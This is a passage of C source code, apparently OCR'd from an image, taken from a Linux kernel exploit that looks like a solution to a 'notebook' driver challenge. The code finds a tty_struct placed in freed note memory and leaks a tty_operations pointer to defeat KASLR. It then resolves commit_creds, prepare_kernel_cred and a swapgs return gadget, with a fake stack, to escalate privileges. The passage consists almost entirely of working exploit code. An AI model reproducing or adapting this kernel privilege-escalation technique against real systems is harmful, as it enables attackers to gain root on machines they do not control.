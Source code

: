 ```c
//        sem_post(&add_sem);
//    sleep(1);

    char ttyinfo[0x300];
    memset(ttyinfo, 0, 0x300);
    char* hit_address = NULL;
    int hit_idx = -1;
    char* fake_ttyops_address = NULL;
    int fake_ttyops_idx = -1;
    size_t* fake_stack_address = NULL;
    int fake_stack_idx = -1;
    for(int i=0; i<0x10; i++){
        read(fd, ttyinfo, i);
        int header = *((int*)ttyinfo);
        if(header == 0x5401 || header ==  0x5402){
            hit_address = notebook_msg(false)[i].note;
            hit_idx = i;
        }else{
            if(fake_ttyops_idx == -1){
                fake_ttyops_address = (char*)(notebook_msg(false)[i].note);
                fake_ttyops_idx = i;
            }
            else{
                fake_stack_address = (size_t*)(notebook_msg(false)[i].note);
                fake_stack_idx = i;
            }
        }
        if(hit_address && fake_stack_address)
            break;
    }
    if(hit_address == NULL)
        errExit("Failed to access tty_struct in notes.");
    if(fake_stack_address == NULL)
        errExit("Failed to find fake stack address.");
    printf("\033[1;32mSuccessfully accessed tty_struct in note #%d, address: %p\n\033[m", hit_idx, hit_address);
    printf("\033[1;32mSuccessfully found fake tty_struct_operations in note #%d, address: %p\n\033[m", fake_ttyops_idx, fake_ttyops_address);
    printf("\033[1;32mSuccessfully found fake stack in note #%d, address: %p\n\033[m", fake_stack_idx, fake_stack_address);

    printf("\033[1;34mReady to get base address of kernel by file_operations ptr.\n\033[m");
    u_int64_t tty_operation = ((u_int64_t*)ttyinfo)[3];
    printf("\033[1;32mtty_operations address: %p\n\033[m", (void*)tty_operation);
    u_int64_t offset = 0;
    if((tty_operation & 0xFFF) == (ptm_unix98_ops & 0xFFF))     // this file_operations is ptm_unix98_ops
        offset = tty_operation - ptm_unix98_ops;
    else if((tty_operation & 0xFFF) == (pty_unix98_ops & 0xFFF))    // this file_operations is pty_unix98_ops
        offset = tty_operation - pty_unix98_ops;
    else
        errExit("Unexpected tty_operations address.");
    printf("\033[1;32mBase address got.\n\033[m");

    u_int64_t base_address = kernel_BASE + offset;
    void (*commit_creds)() = (void(*)())(commit_creds_BASE + offset);
    void (*prepare_kernel_cred)() = (void(*)())(prepare_kernel_cred_BASE + offset);
    void (*swapgs_restore_regs_and_return_to_usermode)() = (void(*)())(SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + offset);
    printf("\033[1;32mBase address: %zx.\n\033[m", base_address);
    printf("\033[1;32mOffset: %zx.\n\033[m", offset);
    printf("\033[1;32mcommit_creds: %p.\n\033[m", commit_creds);
```